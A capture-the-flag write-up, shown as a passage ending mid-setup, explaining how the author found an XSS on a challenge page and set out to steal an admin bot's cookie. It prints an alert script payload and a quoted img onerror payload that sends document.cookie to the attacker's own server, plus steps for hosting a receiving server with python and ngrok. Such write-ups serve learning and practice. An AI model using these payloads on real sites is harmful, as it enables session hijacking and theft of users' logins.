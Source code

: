 ```<script>alert(1)</script>```


It worked! Simply changing '+' to the url encoded value '%2b' allowed me to insert my own script.
<br /><br />



## Getting The Cookie

Okay, so we had a successful XSS on the babier webpage, now time to move onto the admin page. This is where I got stuck for awhile.


![admin](/assets/babier_csp/admin.png)


I thought that if I just gave the admin bot a vulnerable url to the babier page, it would set my cookie.
After trying various payloads similar ```alert(document.cookie)``` I decided to get clarification from the creator on whether I was getting my cookie set, or stealing the cookie.
They clarified that my goal was to steal the admin bot's cookie.
As it turns out, if there is an admin bot, there is a very very good chance your goal is to steal their cookie. 

Googling "stealing admin bot cookie" pretty much immediately brought up the solution.
I found a writeup in which they created an xss that redirected the administrator to their server. 
They also appended the redirected user's cookie on the end of the url


[``` <img src=x onerror=this.src='http://myserver/?c='+document.cookie>```](https://codeburst.io/joe-web-challenge-google-ctf-2017-7120205a1297)

This was their solution, and it was *almost* exactly what I was looking for. 
However we couldn't use an img tag because we needed a nonce to be included in our xss, and only script and style elements can include them as far as I know


I also noticed that they redirected to their own personal server. Being able to host a server is part of a lot of web challenges, and everyone interested in the category should learn to do so.
I personally recommend hosting a local server with python, and then making it public with [ngrok](https://ngrok.com/). If you need to host a single page payload, [tiiny.host](tiiny.host) works very well too
<br /><br />


### Setting up a server

Since your server won't need any code, you can simply just boot up a server, and look at incoming requests.

*Note: Steps 1 and 2 are optional to show you how to connect a local server to your ngrok server, but useful for future challenges*



1. Create a blank directory where you want your webserver to be

    ```mkdir webserver```

2. Run a local webserver in that directory

    ```python3 -m http.server```

```